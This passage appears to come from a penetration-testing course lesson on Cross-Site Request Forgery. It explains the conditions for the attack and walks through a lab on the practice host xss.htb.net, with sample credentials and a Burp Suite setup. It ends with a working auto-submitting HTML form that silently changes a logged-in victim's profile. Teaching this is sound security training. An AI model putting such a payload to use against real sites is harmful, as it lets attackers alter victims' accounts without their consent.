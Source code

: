 A web application is vulnerable to CSRF attacks when:

- All the parameters required for the targeted request can be determined or guessed by the attacker
- The application's session management is solely based on HTTP cookies, which are automatically included in browser requests

To successfully exploit a CSRF vulnerability, we need:

- To craft a malicious web page that will issue a valid (cross-site) request impersonating the victim
- The victim to be logged into the application at the time when the malicious cross-site request is issued

In your web application penetration testing or bug bounty hunting endeavors, you will notice a lot of applications that feature no anti-CSRF protections or anti-CSRF protections that can be easily bypassed.

We will focus on evading anti-CSRF protections in the following sections.

* * *

## Cross-Site Request Forgery Example

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target`. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along. Don't forget to configure the specified vhost ( `xss.htb.net`) to access the application.

Navigate to `http://xss.htb.net` and log in to the application using the credentials below:

- Email: crazygorilla983
- Password: pisces

This is an account that we created to look at the functionality of the application.

Run Burp Suite as follows.

```shell
burpsuite

```

Activate burp suite's proxy ( _Intercept On_) and configure your browser to go through it.

Now, click on "Save."

You should see the below.

![image](https://academy.hackthebox.com/storage/modules/153/28.png)

We notice no anti-CSRF token in the update-profile request. Let's try executing a CSRF attack against our account (Ela Stienen) that will change her profile details by simply visiting another website (while logged in to the target application).

First, create and serve the below HTML page. Save it as `notmalicious.html`

```html
<html>
  <body>
    <form id="submitMe" action="http://xss.htb.net/api/update-profile" method="POST">
      <input type="hidden" name="email" value="[email protected]" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>

```